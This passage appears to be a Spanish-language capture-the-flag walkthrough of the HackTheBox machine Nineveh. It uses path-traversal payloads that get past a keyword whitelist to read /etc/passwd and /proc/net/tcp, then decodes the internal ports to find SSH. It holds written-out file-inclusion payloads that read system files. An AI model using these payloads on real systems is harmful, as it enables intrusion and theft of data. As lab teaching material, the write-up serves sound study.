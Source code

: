 La differentes respuestas nos hacen pensar que hay un systema de White words list que functionna unicamente si tenemos la palabra
**ninevehNotes**

```bash
10.10.10.43/department/manage.php?notes=files/ninevehNotes/../../../../../../etc/passwd
10.10.10.43/department/manage.php?notes=ninevehNotes/../../../../../../etc/passwd
10.10.10.43/department/manage.php?notes=/ninevehNotes/../etc/passwd
```

Ya podemos ver el contenido del 
```bash
 /etc/passwd 
```
 y vemos un usuario **amrois**

Miramos mas contenidos interresantes

### Checkeamos los puertos internos de la maquina {-}

Siempre es buena idea mirrar los puertos internos que estan abiertos. Desde fuera, connocemos los puertos 80 y 443.

1. Approvechamos del LFI para ver el fichero proc tcp

    ```bash
    10.10.10.43/department/manage.php?notes=files/ninevehNotes/../proc/tcp
    ```

1. copiamos esto en un fichero llamado data
1. recuperamos la columna que contiene los puertos

    ```bash
    cat data
    cat data | awk '{print $2}'
    cat data | awk '{print $2}' | grep -v "address"
    cat data | awk '{print $2}' | grep -v "address" | awk '{print $2}' FS=":"
    cat data | awk '{print $2}' | grep -v "address" | awk '{print $2}' FS=":" | sort -u
    ```

Aqui vemos 3 puertos en formato hexadecimal. Lo miramos con python

```python
python3

>>> 0x0016
22
>>> 0x0050
80
>>> 0x01BB
443
```

Ya sabemos ahora que hay el puerto 22 (ssh) que esta abierto internamente.


### Checkeamos las informaciones del usuario amrois {-}
